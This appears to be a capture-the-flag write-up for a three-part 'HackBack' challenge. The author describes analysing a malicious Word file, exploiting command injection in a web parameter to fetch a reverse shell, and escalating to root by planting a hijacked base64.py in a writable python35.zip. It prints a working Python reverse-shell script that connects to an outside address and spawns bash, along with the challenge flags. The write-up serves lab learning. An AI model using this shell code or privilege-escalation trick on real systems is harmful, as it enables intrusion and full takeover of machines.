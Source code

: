 In this challenge from the Pwnable category we get a HackBack.doc file with some malware in it as my Windows machine's Defender quickly started yelling. It is a 3 part challenge which I have to say, was probably my favorite.


## PART 1
![image](https://user-images.githubusercontent.com/80063008/137871944-97354123-f98b-445c-a0bb-2cf7bc8d5c8b.png)

On my Linux machine I used [olevba](https://github.com/decalage2/oletools) to inspect it and see what is inside. I'll spare you the large amounts of code I went through for a bunch of hours. The interesting bit is here:

![image](https://user-images.githubusercontent.com/80063008/137871967-57216c73-0b15-4968-81f3-0a5158f9c2ed.png)

This matches up with the parameters from the given URL:

![image](https://user-images.githubusercontent.com/80063008/137871980-d2e0c498-7934-40c6-8e14-33b6796ca905.png)


Got stuck here for a while as I kept replacing the parameters with various things and kept getting only Invalid Request. Then the Agent in the "Req Trick Agent v1.0" made me thing of User-Agent.

Replaced the User-Agent in Burpsuite and now we no longer get Invalid Request.

![image](https://user-images.githubusercontent.com/80063008/137872824-24d7cc93-55e5-4221-b9fb-a68be8fd004d.png)


We actually get something, but it's just garbage encrypted base64. So back to playing with the parameters looking for SQLi, LFI, SSTI, RFI and last but not least, Command Injection. 

A pipe allows for command injection so I curled down a reverse shell and got on the box:

![image](https://user-images.githubusercontent.com/80063008/137872899-740dd45a-19eb-45c9-8b27-42421423cdc3.png)

First thing I check, is to see what kind of permissions I have, if any: sudo -l

![image](https://user-images.githubusercontent.com/80063008/137873951-593d688f-e395-4516-89fe-a99b09a9283b.png)


We can run a python script as root with no password.

First flag is in the script:

GPSCTF{HackBack1:2cc65d14825c76f5fd5383a9ccf08da2}

## PART 2

The second flag is mentioned to be in the root folder so we need to privesc. Considering we can run a python script as root, there are usually 3 ways to do that. Library highjacking, module highjacking and path highjacking. More details about it can be found here: https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

![image](https://user-images.githubusercontent.com/80063008/137873397-502ed09c-a7d5-45c7-afed-73238c2c4370.png)


Using the syntax below, we can check where the file is importing the libraries from.

```bash
python -c 'import sys; print("\n".join(sys.path))'
```
![image](https://user-images.githubusercontent.com/80063008/137873443-ee21866d-3ba9-47e8-8061-e7fb1a927789.png)

It's first looking to get them from a python35.zip located in /usr/lib. First question is, can we write in there?

![image](https://user-images.githubusercontent.com/80063008/137873474-84a8b0e7-55ec-4426-bdff-009194875fb9.png)

We sure can. So we create our own library we want to highjack, lets go with base64.py. I create a file called base64.py with a python reverse shell:

```python
import socket
import os
import pty
 
s= socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.0.23",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Then I archived that into a file called python35.zip and put that into /usr/lib.

Now when I ran the script as root while having my netcat listener up:

```bash
sudo -u root /create.py
```

It is actually running my base64.py script which gets me on the box as root:

![image](https://user-images.githubusercontent.com/80063008/137873524-9428e7b2-3ed6-4306-b32d-e57b54c10484.png)

GPSCTF{HackBack2:29e79e93ae2db19635feccb214920b4a}

## PART 3

As you can see in the picture above, the Final flag is free to read right next to flag 2. No challenge here.

GPSCTF{HackBack3:4488b6d38d03e0781e31e5bab939f3a1}

